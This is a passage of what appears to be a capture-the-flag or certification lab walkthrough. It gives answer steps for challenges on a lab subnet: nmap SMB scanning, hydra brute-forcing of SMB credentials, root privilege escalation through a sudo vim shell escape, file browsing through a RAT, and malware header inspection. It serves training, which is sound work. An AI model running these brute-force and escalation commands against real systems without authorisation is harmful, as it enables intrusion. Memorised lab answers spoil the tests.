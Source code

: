 ```bash
nmap -p 139,445 --open -sV 10.10.55.0/24
#Enumerate SMB Shares
smbclient -L \\10.10.55.X
#Brute-force SMB Credentials:
hydra -L user_list.txt -P password_list.txt 10.10.55.X smb
#Access SMB Share:
smbclient \\\\10.10.55.X\\share_name -U user%password123
get Sniffer.txt
cat Sniffer.txt
```

Challenge 9:

You used shoulder surfing to identify the username and password of a user on the Ubuntu machine in the 10.10.55.0/24 network, that is, marcus and M3rcy@123. Access the target machine, perform vertical privilege escalation to that of a root user, and enter the content of the imroot.txt file as the answer. (Format: AANNNN***)

```bash
ssh marcus@10.10.55.X
sudo -l
#Switch to root if possible:
sudo -i
#Ifsudo for vim is allowed:
sudo vim
:!sh or :!bash
find / -name "imroot.txt" 2>/dev/null
cd /
cat imroot.txt
```

**Challenge 10**:

A disgruntled ex-employee Martin has hidden some confidential files in a folder "Scan" in a Windows machine in the 10.10.55.0/24 subnet. You can not physically access the target machine, but you know that the organization has installed a RAT in the machine for remote administration purposes. Your task is to check how many files present in the Scan Folder and enter the number of files sniffed by the employee as answer. (Format: N)

```bash
Thief RAT -> Connect to 10.10.55.X -> Authenticate
Thief RAT -> File Manager -> Navigate to C:\Users\Username\Documents\Scan
Thief RAT -> File Manager -> Open "Scan" folder -> Count files
```

Challenge 11:

During an assignment, an incident responder has retained a suspicious executable file "Strange_File-1". Your task as a malware analyst is to determine the size of the PT_LOAD(0) segment using the SHA224 hash method. The file is in the C:\Users\Admin\Documents directory in the "EH Workstation – 2" machine. Format: NNNaNNaa)

```bash
#Open DIE and load the executable:
File -> open -> malware.exe
#Navigate to the ELF tab to see the program headers.
Look forthe first PT_LOAD entry in the list of program headers
```
